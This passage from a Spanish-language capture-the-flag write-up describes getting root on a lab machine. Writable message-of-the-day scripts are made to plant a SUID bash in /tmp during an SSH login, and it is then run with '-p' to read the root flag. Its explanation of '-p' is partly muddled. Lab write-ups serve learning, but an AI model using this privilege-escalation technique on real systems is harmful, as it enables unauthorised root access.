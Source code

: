  ![image](https://github.com/Esevka/CTF/assets/139042999/ecc4ac8f-23d0-489f-babc-1c84764d848b)

  - Editamos el mensaje de bienvenida para realizar una escalada hacia root.
  
    INFO ---> Motd(Message Of The Day) servicio SSH: https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server

    Como vemos tenemos todos los permisos sobre los ficheros de configuracion.
    
        james@osboxes:/etc/update-motd.d$ ls -lat
        total 44
        drwxr-xr-x 134 root root  12288 Mar 10  2021 ..
        drwxr-xr-x   2 root root   4096 Mar 10  2021 .
        -rwxrwxr-x   1 root james     0 Mar 10  2021 00-header.save
        -rwxrwxr-x   1 root james  1220 Mar 10  2021 00-header
        -rwxrwxr-x   1 root james    97 Dec  7  2018 90-updates-available
        -rwxrwxr-x   1 root james   142 Dec  7  2018 98-fsck-at-reboot
        -rwxrwxr-x   1 root james   144 Dec  7  2018 98-reboot-required
        -rwxrwxr-x   1 root james   604 Nov  5  2017 99-esm
        -rwxrwxr-x   1 root james   299 Jul 22  2016 91-release-upgrade
        -rwxrwxr-x   1 root james  1157 Jun 14  2016 10-help-text

    Editamos el fichero 00-header.save

    ![image](https://github.com/Esevka/CTF/assets/139042999/583e318c-7463-4671-b067-5f9fd033021f)

    Nos conectamos por el servicio SSH para que muestre el mensaje de bienvenida y a su vez se ejecuten los comandos anteriores.
    Como podemos ver nos ha creado nuestra bash con el SUID activo y los permisos perfectamente.

    ![image](https://github.com/Esevka/CTF/assets/139042999/5166e170-325b-43ea-b1ae-1051728fed98)

    Para finalizar ejecutamos la bash realizando una escalada del usuario james to root, leemos la root flag

        james@osboxes:~$ /tmp/esevka -p
    
        esevka-4.3# whoami
        root
    
        esevka-4.3# cd /root
    
        esevka-4.3# ls
        root.txt
    
        esevka-4.3# cat root.txt 
        3c8c3d0fe$$$$$$$$$$$8e32f68fabf4b

    INFO: por que se utiliza la opcion -p al ejecutar la bash y nos convertimos en root.

        En sistemas Unix y Linux, cuando un archivo ejecutable tiene el bit SUID activo y es un script de shell
        (como un script de Bash), la opción -p a menudo se utiliza para indicar que el intérprete de comandos
        debe preservar los UID efectivos y reales al ejecutar el script, en lugar de ajustarlos al UID del usuario
        que lo está ejecutando. Esto es especialmente relevante en el contexto de scripts con bit SUID activo
        porque se desea mantener el nivel de acceso elevado.
